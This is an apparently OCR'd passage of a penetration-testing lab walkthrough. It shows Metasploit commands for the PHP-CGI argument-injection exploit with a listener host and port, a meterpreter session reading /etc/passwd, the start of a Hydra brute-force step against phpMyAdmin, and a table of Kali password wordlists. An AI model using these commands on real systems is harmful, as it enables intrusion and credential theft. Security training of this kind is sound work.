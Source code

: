    msf6 exploit(multi/http/php_cgi_arg_injection) > set LHOST 192.168.74.136

   LHOST => 192.168.74.136

   msf6 exploit(multi/http/php_cgi_arg_injection) > set LPORT 4444

   LPORT => 4444

   msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

   ```

![[Pasted image 20250408100247.png]]
 
After successful exploitation, we can access system files:

   ```bash

   meterpreter > cat /etc/passwd

   ```

![[Pasted image 20250408100310.png]]

3. **phpMyAdmin Access via Brute Force**:

   We identified phpMyAdmin at `/phpMyAdmin/`. Let's brute force the login credentials using Hydra:
#### Default Wordlist Locations in Kali Linux

Here's a comprehensive list of wordlists available on a standard Kali Linux installation that you can use for password attacks:
## 1. General Purpose Wordlists

| Wordlist | Location | Size | Description |
|----------|----------|------|-------------|
| rockyou.txt | `/usr/share/wordlists/rockyou.txt` | 133 MB | Most common wordlist, contains ~14 million passwords from leaked databases |
| fasttrack.txt | `/usr/share/wordlists/fasttrack.txt` | 222 KB | Small list of very common passwords for quick testing |
| dirb (common.txt) | `/usr/share/dirb/wordlists/common.txt` | 34 KB | Common words, originally for directory brute forcing |
| dirb (big.txt) | `/usr/share/dirb/wordlists/big.txt` | 172 KB | Larger collection of common words |
| crackstation-human-only.txt | Download from crackstation.net | 64 MB | Human passwords from CrackStation's collection |
| crackstation.txt | Purchase from crackstation.net | 15 GB | Massive wordlist of passwords |
| weakpass_2 | Download from weakpass.com | 1.4 GB | Collection of passwords from various leaks |
| weakpass_3 | Download from weakpass.com | 8.5 GB | Larger collection of passwords |

## 2. SecLists Collection (Located at `/usr/share/seclists/Passwords/`)

### Common Passwords
